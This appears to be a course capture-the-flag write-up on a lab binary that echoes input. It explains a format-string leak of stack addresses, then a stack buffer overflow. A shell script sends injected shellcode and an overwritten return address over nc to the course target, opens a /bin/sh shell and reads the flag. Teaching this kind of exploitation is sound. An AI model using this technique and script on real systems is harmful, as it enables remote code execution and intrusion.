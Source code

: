 +++
title = "Writeup for assignment 5"
date = 2020-06-11
summary = "Solutions and explanations for assignment 5"

draft = false
toc = true
type = "docs"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"thom"
]

[menu.hic2020]
name = "Writeup Assignment 5"
parent = "Assignments"

#weight = 30
+++
# Writeup "Overflowing a buffer"

## Analysis

The program we get prints back any input we give to it.

1. We start out by giving the program a lot of "A"s for input.
    1. We see that when we give it more than 104 bytes, we get some garbage output at the end.
        * The size of the buffer is probably 100 bytes
        * This garbage is probably some other variable above our buffer that gets written after we overflow the buffer
    1. When we give it 114 bytes of input, it crashes
        * We are probably starting to overwrite a frame pointer or return address

Using what we know of the stack and what we learnt, we can draw this picture of the stack:

```plaintext
+================================+ 0x7ffff
| main()                         |
+================================+
| ....                           |
+================================+
| return address                 |
+--------------------------------+
| frame pointer                  |
+--------------------------------+
| unknown variable               |
| buffer[100]                    |
+--------------------------------+
```

2. We now try a `%p` and see that we have a `printf` vulnerability.
    1. We give it 30x`"%p "`, so 90 bytes, to stay within the buffer, and obtain the following output:
    ```plaintext
    0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070 0 0x7fffffffebd0 0x7fffffffec60
    0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70
    0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce
    0x7fffffffecb0 0
    ```

    2. We know that the first few arguments are register values, so we ignore them.
    3. We see then a bunch of ``0x702520`` values: we hex decode this and see it's the hex encoding of `p`, `%` and `space` in ASCII.
    4. We see that there is a value `0x555555555236` which we hypothesise is the return address of our stack frame
        1. we see another similar address behind it, probably another stack frame.
    5. We see ``0x7fffffffec60`` before it that could very well be the frame pointer: it's a stack address because it starts with `0x7ff`.
    6. We see before the frame pointer some other value `0x7fffffffebd0`, which appears to be an address on the stack. This may be our unknown variable.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    |
+----------------------------------+
| frame pointer  0x7fffffffec60    |
+----------------------------------+
| unknown variable: 0x7fffffffebd0?|
| buffer[100]: 0x702520...         |
+----------------------------------+
```

3. Hypothesis: `0x7fffffffebd0` is the address of buffer.
    * `gets` returns the address of the buffer that is read into, so it's likely that that address is a local variable on the stack.

## Attack

1. We need to insert our shellcode at the start of the buffer
2. Followed by some `%p`s that we will use to position the return address
3. Followed by the return address `0x7fffffffebd0` in little-endian form.

We modify `attack.sh` in the following way:

```sh
# The first argument $1 is the number of %ps
for i in $(seq 0 $1); do
    attackstr="${attackstr}%p "
done

# if we provide a second argument insert the shellcode
# We also use $2 to indicate the number of NOPs we want
if ! [ "$2" = "" ]; then
    attackstr="$(shellcode list $2)$attackstr"
fi

# The third argument is the return address we want to use
if ! [ "$3" = "" ]; then
    attackstr="${attackstr}$(reverseaddr $3)"
fi

# print len
echo "Attack string is $(echo attackstr | wc -c) bytes" >&2
# send attackstr to hackme
echo $attackstr | nc hackme.rded.nl PORT
```

We execute this in the following way:

```sh
./attack.sh <%p count> <num of nops> <address>
```

If we provide 116 bytes, we see that we partially overwrite the frame pointer (we see ``0x7f007fffffff``)
If we provide 118 bytes, we see that we exactly overwrite the frame pointer (we see ``0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0``)

This allows us to update the stack picture with what byte of our input exactly ends up where:
```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 120..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| unknown variable: 0x7fffffffebd0?| 104..110
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```

The return address is 8 bytes behind the frame pointer, so we now write 126 bytes.
We get the output

```plaintext
H1H1H//bin/lsSHRWH;0x7ffff7ffc528 0 0 0x7ffff7ffda40
0 0x9090909090909090 0x9090909090909090 0xd23148c031489090
0x2f6e69622f2fbb48 0x485308ebc148736c 0xb0e689 485752e789
0x7025207025050f3b 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025
FLAG
bin
...
```

We now know that `/bin/ls` was sucessfully executed by the shellcode: the unknown variable is indeed a pointer to buffer.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 110..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| var = &buffer: 0x7fffffffebd0    | 104..112
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```


We now need to switch to the variant that starts `/bin/sh`.

To make sure that we can still provide input to the shellcode, we also switch to the command line with

```sh
(echo $attackstr; cat -) | nc hackme.rded.nl PORT
```

We obtain a shell and type ``cat FLAG``:

```sh
cat /FLAG
HiCCTF{2v3jp6i8GLMCJpDuzD03ILEqKFmcyIMaziEuqi9HXhyoStRi4E2INJopluRr4J1c}
```
